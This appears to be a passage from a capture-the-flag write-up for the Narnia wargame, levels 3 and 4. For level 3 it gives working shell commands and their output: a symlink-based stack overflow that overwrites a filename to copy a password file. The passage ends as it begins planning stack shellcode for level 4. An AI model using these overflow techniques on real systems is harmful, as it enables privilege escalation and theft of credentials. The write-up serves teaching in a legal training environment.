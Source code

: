 ```
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

Again, this level is solved using a simple buffer overflow. Since `ofile` is stored just below `ifile` on the stack we can overflow `ifile` so that `ofile` is changed to a file we can actually open. The obvious choice for `ifile` is of course `/etc/narnia_pass/narnia4`, but unfortunately it's too short for our overflow. However, a possible solution is to symlink this file to a file with a long name that ends with the path to the file we wish to write to:

```
narnia3@melinda:/tmp/doge3$ ln -s /etc/narnia_pass/narnia4 $(python -c "print '\x41'*32 + 'pass'")
narnia3@melinda:/tmp/doge3$ touch pass
narnia3@melinda:/tmp/doge3$ /narnia/narnia3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApass 
copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApass to a safer place... (pass)
```

Level 4:
--------

```
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

The obvious solution is to overwrite the return address with that of a shell-spawning shellcode. However, unlike previous levels we can't place our shellcode in an environment variable, as they are all zeroed before `main` returns. Fortunately, the stack is executable so we can place our shellcode there and change the return address so that it's executed. Using `gdb` we can extract the relevant memory locations:
